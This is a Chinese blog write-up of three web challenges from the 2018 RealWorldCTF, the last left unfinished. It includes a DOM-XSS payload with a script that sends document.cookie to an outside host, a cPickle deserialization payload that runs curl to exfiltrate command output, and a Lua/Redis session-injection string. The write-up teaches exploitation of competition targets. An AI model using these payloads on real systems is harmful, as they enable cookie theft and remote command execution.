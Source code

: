 ```yaml
---
title: 2018 RWCTF web WriteUp
tags:
  - CTF
  - WEB
  - WriteUp
date: 2018-07-31 13:11:58
toc: true
---
```


周末打了长亭举办的RealWorldCTF，tql，写一下web的wp给博客除除草。  

<!-- more -->
# dot free
```
All the IP addresses and domain names have dots, but can you hack without dot?
```
主页有个提交url的框，尝试提交自己的url，但是打不到，怀疑限制了ip，测试中发现网站是是django，并且开启了debug模式，提交错误的post参数就可以看到报错信息  
![](/img/2018-rwctf-img8.png)

可以看到web站点的名字叫 XSSWebSite，于是找xss的点，尝试查找django的xss，但是最新版本并没有已知的xss漏洞，后面发现主页存在这样一段js代码，看起来是个domxss  
![](/img/2018-rwctf-img9.png)

调试一下，可以知道这段代码从浏览器的url取了查询字符串，urldecode后格式化为json，然后发送到一个监听器里去操作，代码里过滤了value参数不能出现`.`，`//`和`。`，type不为iframe的时候会将value插入到一个script标签中
看到这里和题目提示对应上了，不能出现`.`，最后构造payload如下
```
http://13.57.104.34/?{%22iframe%22:{%22value%22:%22http:/\\111111111%22,%22type%22:%22xxxx%22}}
```
11111111替换为自己的vps的ip转10进制，可以看到页面里已经出现一个src=11111111的script标签了
![](/img/2018-rwctf-img11.png)

然后提交这个url到Recieve，服务端就会执行vps上提前构造好的js语句了
```js
window.location.href="http://xxxxxxx/?="+escape(document.cookie);
```
最后flag在cookie里
![](/img/2018-rwctf-img10.png)
flag:  rwctf{L00kI5TheFlo9}


# bookhub

题目提示www.zip，可以下载到源码
看到代码里登陆的时候会检查ip白名单，这里的ip是取的xff，不在白名单内会提示ip不在白名单内
![](/img/2018-rwctf-img12.png)
修改xff为白名单ip失败，猜测xff获取到的是nginx转发过去的ip，所以想到从上面这串里的唯一一个外网ip 18.213.16.123入手
扫描该ip，发现5000端口也开了一个相同的应用程序bookhub，并且开启了debug模式，在这里登陆的提示是密码错误，说明已经绕过了白名单检查。

审计代码发现有一处鉴权的装饰器使用错误(route和login_required顺序反了)
![](/img/2018-rwctf-img4.png)
这会导致鉴权装饰器无效，没有登陆的用户也能调用该接口（debug模式下
查看接口代码，可以知道这个接口eval了lua脚本，用来清除除了自己之外其他所有人的session，其中sessionid存在拼接操作，并且可控，想到可以注入点东西
![](/img/2018-rwctf-img5.png)
参考 https://www.ctolib.com/topics-129777.html
通过这个接口，将恶意的数据（cPickle反序列化漏洞的payload）注入到redis中，当鉴权的时候就会反序列化该字符串，就能任意命令执行了，但是因为该接口需要csrf_token校验，所以多一步获取token的操作
具体操作如下：  
1.生成payload：
```python
import cPickle

class genpoc(object):
    def __reduce__(self):
        s = """curl http://xxxx.ceye.io/`/readflag|base64`"""
        return os.system, (s,)

evil = cPickle.dumps(genpoc())
print evil.replace("\n","\\n")
```
2.构造恶意的sessionid并访问/login/获取csrf_token：
```lua
bookhub-session=aaa"} redis.call("set","bookhub:session:aaa","cposix\nsystem\np1\n(S'curl http://xxxxxxx.ceye.io/`/readflag|base64`'\np2\ntRp3\n.")--;
```
这里拼接进lua脚本后长这样：
```lua
local inputs = {"bookhub:session:aaa"}
redis.call("set","bookhub:session:aaa","cposix\nsystem\np1\n(S'curl http://xxxxxxx.ceye.io/`/readflag|base64`'\np2\ntRp3\n.")--;
```
到时候脚本运行后就会将恶意数据写入`aaa`这个session-id的value里，并且删除其他除了aaa意外的session
![](/img/2018-rwctf-img6.png)
3.带着2中生成的ssrf_token和恶意的session-id去请求 /admin/system/refresh_session           
postdata： submit=1&ssrf_token=
导致lua代码注入修改我们的目标session-id的value值, 最后用`aaa`这个session-id任意访问一个需要session的页面即可触发反序列化漏洞执行命令
最后用ceye外带出flag  
![](/img/2018-rwctf-img13.png)


# Print-MD
Print-MD这道题比赛过程中没做出来，比赛结束忙着上班，wp还没写完，先写一下思路  
想看wp的可以去蓝猫师傅的博客膜一下 [RealWorldCTF PrintMD writeup](https://blog.cal1.cn/post/RealWorldCTF%20PrintMD%20writeup)
```
PrintMD
Paste your HackMD link to get a printer-friendly version!
The note should neither be Protected nor Private.
Press Ctrl + P to print or save as PDF.
PrintMD is compatible with outdated browsers.
If the link is published version of the note, which contains /s/, you can append /edit to get the original link. e.g., https://hackmd.io/s/HyCFXNkNm/edit
‍flag is in /flag
```
`print?url=`可以提交一个hackmd的链接并将md文档解析为html，但是限制了只能读取`https://hackmd.io/`开头的url，故无法ssrf  

第一个hint提示 兼容低版本浏览器，其实之前就有发现在我本机`不同浏览器`访问print接口会有不同的效果：
1. chrome请求该接口，返回的标题是 `请稍后`，然后浏览器再往外发请求获取hackmd的md内容，然后解析成html展示到页面上  
2. firefox请求接口，返回的是已经解析好的html标签，很明显后端做了请求并解析md为html的工作

猜测print接口应该是校验了user-agent，于是测试了一下chrome的ua，发现66.0是个分水岭，然而并没有啥进展
![](/img/2018-rwctf-img1.png)
![](/img/2018-rwctf-img2.png)

后面查看前端代码里的 print.ba84889093b992d33112.js
发现这样一段代码
![](/img/2018-rwctf-img3.png)
可以看到这个应该就是print接口的核心代码了，接受到url参数，判断是否为hackmd的url，然后在url最后如果不是/download就拼接一个/download进去，
因为hackmd.io/xxxxxxx/download 是可以下载markdown格式的文件的，
然后将ua和url传入 `/api/render/` 接口，因为这个接口外部没有权限访问（访问会403），而且不知道这个接口调用了啥库，所以陷入了僵局

hint2 给了render.js的代码
```js
const {Router} = require('express')
const {matchesUA} = require('browserslist-useragent')
const router = Router()
const axios = require('axios')
const md = require('../../plugins/md_srv')

router.post('/render', function (req, res, next) {
  let ret = {}
  ret.ssr = !matchesUA(req.body.ua, {
    browsers: ["last 1 version", "> 1%", "IE 10"],
    _allowHigherVersions: true
  });
  if (ret.ssr) {
    axios(req.body.url).then(r => {
          ret.mdbody = md.render(r.data)
      res.json(ret)
    })
  }
  else {
    ret.mdbody = md.render('# 请稍候…')
    res.json(ret)
  }
});

module.exports = router

```
可以看到我们可控的地方有三个点，分别对应三个库：
1. ua: 对应`browserslist-useragent`库，主要是用来判断当前ua版本是否符合预期版本，感觉问题不大
2. url: 对应`axios`库，当ua版本被判定为低版本时，会用axios对url发送一个get请求，但是url限制死了只能 `https://hackmd.io/`，所以能利用的地方有限
3. r.data: url返回的内容，然后用`../../plugins/md_srv`这个库进行了解析，不知道这个库是啥情况

比赛过程中到这里又陷入了僵局，赛后问了蓝猫师傅才知道利用点在axios这边

未完待续。。。

